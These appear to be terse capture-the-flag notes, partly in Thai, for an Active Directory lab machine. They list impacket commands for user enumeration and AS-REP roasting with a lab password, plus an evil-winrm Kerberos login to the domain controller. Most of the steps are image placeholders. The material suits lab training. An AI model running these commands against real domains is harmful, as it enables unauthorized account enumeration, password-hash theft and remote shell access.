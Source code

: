 



impacket-GetADUsers -all -dc-ip 10.10.11.76 voleur.htb/ryan.naylor:HollowOct31Nyt -dc-host dc.voleur.htb -k

![alt text](image.png)

impacket-GetNPUsers voleur.htb/ryan.naylor:HollowOct31Nyt -usersfile users.txt -dc-ip 10.10.11.76 -request -k

![alt text](image-1.png)

![alt text](image-2.png)

![alt text](image-3.png)

![alt text](image-7.png)

![alt text](image-4.png)

![alt text](image-5.png)

![alt text](image-6.png)

![alt text](image-9.png)

มันไม่ -k แล้วไปอ่านใน klist จะอ่านจาก exportเท่านั้น

![alt text](image-11.png)

![alt text](image-10.png)

![alt text](image-12.png)

![alt text](image-13.png)

evil-winrm -i dc.voleur.htb -r voleur.htb

-r, --realm DOMAIN               Kerberos auth, it has to be set also in /etc/krb5.conf file using this format -> CONTOSO.COM = { kdc = fooserver.contoso.com }
![alt text](image-15.png)

![alt text](image-14.png)